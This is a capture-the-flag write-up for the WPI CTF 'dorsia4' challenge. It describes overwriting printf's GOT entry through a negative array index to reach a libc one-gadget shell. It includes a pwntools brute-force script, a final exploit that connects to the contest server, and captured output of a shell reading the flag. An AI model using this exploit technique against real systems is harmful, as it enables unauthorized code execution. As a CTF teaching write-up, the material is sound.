 # dorsia4  
by mito

## 5 solves, 400 pts

* We can overwrite GOT by entering a negative number for i, since it’s partial RELRO.  
* We considered rewriting GOT of printf to One-gadget RCE because scanf is necessary for input.  
* By directly rewriting printf's GOT using gdb, We found that out of the three One-gadget RCE (0x4f2c5, 0x4f322, 0x10a38c), only 0x4f322 was effective.   
* First, we searched for ROP gadget that changed 1 byte from the address of printf and ran it, but all of them had Segmentation fault.  
* Next, by changing the GOT of printf by brute force in 1-byte, we were able to identify multiple bytes where segmentation fault did not occur. Using the python code shown below.

```  
from pwn import *

context.log_level = 'debug'  
BINARY = "./nanowrite"

for i in range(0x0, 0x100):  
 s = process(BINARY)  
 s.recvuntil("\n")  
 try:  
   s.sendline("-103 " + hex(i)[2:])

   s.interactive()  
 except:  
   s.close()  
```

By trial and error for about 1 hour, we was lucky enough to find the procedure
for setting the lowest byte to 0x22.  
```  
s.sendline("-103 " + "91")  
s.sendline("-102 " + "b0")  
s.sendline("-103 " + "38")  
s.sendline("-104 " + "22") ← 0 byte  
```

After another 30 minutes of trial and error, we was able to find a procedure
to change to 0xa33322 of One-gadget RCE(0x7ffff7a33322 with ASLR disabled).  
```  
s.sendline("-103 " + "91")  
s.sendline("-102 " + "b0")  
s.sendline("-103 " + "38")  
s.sendline("-104 " + "22")  ← 0 byte  
s.sendline("-102 " + "b7")  
s.sendline("-103 " + "33")  ← 1 byte  
s.sendline("-102 " + "a3")  ← 2 byte  
```

The final exploit code is below.

```  
from pwn import *

context(os='linux', arch='amd64')  
#context.log_level = 'debug'

BINARY = "./nanowrite"  
elf = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':  
 HOST = "dorsia4.wpictf.xyz"  
 PORT = 31337  
 s = remote(HOST, PORT)  
else:  
 s = process(BINARY)

r = s.recvuntil(" ")[:-1]  
libc_leak = int(r, 16)  
libc_base = libc_leak - 0x10a38c  
gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]  
one_gadget = libc_base + gadget_offset[1]

print "libc_leak  =", hex(libc_leak)  
print "libc_base  =", hex(libc_base)  
print "one_gadget =", hex(one_gadget)

s.sendline("-103 " + hex(((libc_base>>8)&0xff)-0x40+0x91)[2:])  
s.sendline("-102 " + hex(((libc_base>>16)&0xff)-0x9e+0xb0)[2:])  
s.sendline("-103 " + hex(((libc_base>>8)&0xff)-0x40+0x38)[2:])  
s.sendline("-104 " + "22")  
s.sendline("-102 " + hex(((libc_base>>16)&0xff)-0x9e+0xb7)[2:])  
s.sendline("-103 " + hex(((libc_base>>8)&0xff)-0x40+0x33)[2:])  
s.sendline("-102 " + hex(((libc_base>>16)&0xff)-0x9e+0xa3)[2:])

s.interactive()

'''  
$ python exploit.py r  
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done  
libc_leak  = 0x7824c97d438c  
libc_base  = 0x7824c96ca000  
one_gadget = 0x7824c9719322  
[*] Switching to interactive mode  
giv i b  
$ id  
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)  
$ ls  
flag.txt  
nanowrite  
run_problem.sh  
$ cat flag.txt  
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}  
'''  
```